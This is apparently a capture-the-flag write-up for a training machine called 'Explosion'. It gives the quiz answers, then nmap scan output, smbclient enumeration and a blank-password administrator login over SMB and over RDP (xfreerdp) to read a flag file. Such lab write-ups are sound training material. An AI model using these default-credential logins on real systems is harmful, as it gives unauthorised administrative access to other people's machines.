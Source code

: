 ## 1. Questions
- Task 1
	- What does the 3-letter acronym RDP stand for?
		- `Remote Desktop Protocol`
- Task 2
	- What is a 3-letter acronym that refers to interaction with the host through a command line interface?
		- `CLI`
- Task 3
	- What about graphical user interface interactions?
		- `GUI`
- Task 4
	- What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?
		- `telnet`
- Task 5
	- What is the name of the service running on port 3389 TCP?
		- `ms-wbt-server`
- Task 6
	- What is the switch used to specify the target host's IP address when using xfreerdp?
		- `/v:`
- Task 7
	- What username successfully returns a desktop projection to us with a blank password?
		- `administrator`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- smbclient
- dir
- more
- xfreerdp
## 3. Approach
### nmap scan
 - Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.99.63
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-09-13T08:20:06+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-09-12T08:16:28
|_Not valid after:  2026-03-14T08:16:28
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-09-13T08:19:58+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-13T08:20:02
|_  start_date: N/A
<snip>
```
### Research common SMB usernames
- Resources
	- https://medium.com/@taliyabilal765/smb-enumeration-guide-b2cb5cfb20e6#:~:text=2%2D-,Common%20credentials,-%3A%20Try%20common
	- https://hackviser.com/tactics/pentesting/services/smb
- Example usernames
	- anonymous
	- admin
	- administrator
	- root
### Test SMB connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected using username `anonymous`
```bash
smbclient -L //10.129.99.63 -U anonymous
```
- Result
```bash
<snip>
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
<snip>
```
### Test share connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected using username `administrator`
```
smbclient //10.129.99.63/C$ -U administrator
```
### Explore files and directories
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
- Flag found in `\Users\Administrator\Desktop` directory
### Retrieve the flag
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
```cmd
more \Users\Administator\Desktop\flag.txt
```
## 4. Alternative Approach
### nmap scan
 - Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.99.63
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-09-13T08:20:06+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-09-12T08:16:28
|_Not valid after:  2026-03-14T08:16:28
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-09-13T08:19:58+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-13T08:20:02
|_  start_date: N/A
<snip>
```
### Research common admin credentials
- Usernames
	- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/04-Authentication_Testing/02-Testing_for_Default_Credentials#:~:text=Try%20the%20following%20usernames
- Password
	- https://outpost24.com/blog/it-admins-weak-password-use/#:~:text=password%2Dguessing%20attack.-,Top%2020%20administrator%20passwords,-%3A%20Default%2C%20static%2C%20and
### Test rdp connection (passwordless)
- Test usernames
	- administrator
	- user
	- admin
	- root
	- anonymous
- Successfully connected using username `administrator`
```bash
xfreerdp /v:10.129.99.63 /u:administrator /p: /dynamic-resolution
```
### Retrieve the flag
- Upon login, opened `flag.txt` on the Desktop.
![](../Assets/Screenshot%202025-09-13%20at%2009.41.22.png)
